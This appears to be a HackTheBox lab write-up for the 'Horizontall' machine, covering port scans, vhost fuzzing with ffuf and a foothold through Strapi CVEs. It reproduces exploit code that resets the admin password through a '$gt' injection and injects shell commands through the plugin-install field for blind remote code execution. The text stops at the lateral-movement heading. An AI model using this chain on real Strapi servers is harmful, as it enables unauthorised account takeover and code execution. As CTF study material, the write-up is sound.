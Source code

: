 # Horizontall Machine (10.10.11.105)

![Screenshot from 2022-02-09 15-51-45](https://user-images.githubusercontent.com/79413473/153178656-e2e02f73-4595-40c5-bec5-9b972891ec0c.png)

## Recon:
+ Port scan:
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  
+ Add **Horizontall.htb** to hosts file also run some vhost fuzzing on it as there is nothing much on main domain.
```
ffuf -u http://horizontall.htb/ -w ~/wordlist/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.horizontall.htb" -fc 301
```
+ Found *www* & **api-prod**. Add them to hosts file and api-prod.horizontall.htb gives welcome message
![Screenshot from 2022-02-09 16-13-34](https://user-images.githubusercontent.com/79413473/153182217-2a3b0ec2-ccf7-42e1-8d5a-5afdc407607b.png)

## Foothold: Exploiting strapi CVE
+ Running ffuf we get */admin* which redirect to login panel, looking back in burp you will see a request when accessing */admin* which reveals vulnerable strapi version
![Screenshot from 2022-02-10 19-49-36](https://user-images.githubusercontent.com/79413473/153426416-30960267-7072-4212-9b6a-055d5d534b59.png)
+ Google this strapi *version* number and you will get a [exploitdb](https://www.exploit-db.com/exploits/50239) which have a Unauthenticated RCE by chaining two CVEs. First reset admin password then execute code on machine by installing plugin.
```
 def password_reset():
 41     global url, jwt
 42     session = requests.session()
 43     params = {"code" : {"$gt":0},
 44             "password" : "SuperStrongPassword1",
 45             "passwordConfirmation" : "SuperStrongPassword1"
 46             }
 47     output = session.post(f"{url}/admin/auth/reset-password", json = params).text
 48     response = json.loads(output)
 49     jwt = response["jwt"]
 50     username = response["user"]["username"]
 51     email = response["user"]["email"]
```
Anyone can change admin' s password tehn it loads admin's jwt in response and use that further you can also login by **admin:SuperStrongPassword1**

```
 def code_exec(cmd):
 59     global jwt, url
 60     print("[+] Triggering Remote code executin\n[*] Rember this is a blind RCE don't expect to see output")
 61     headers = {"Authorization" : f"Bearer {jwt}"}
 62     data = {"plugin" : f"documentation && $({cmd})",
 63             "port" : "1337"}
 64     out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
 65     print(out.text)
```
This part here send a post request to */plugin/install* with our payload in plugin field port number doesn't matter somehow here, you can even remove that field.You will have a blind RCE. Let's get a shell from here as **strapi** user

## Lateral Movement:
+ There is a developer user on machine, 
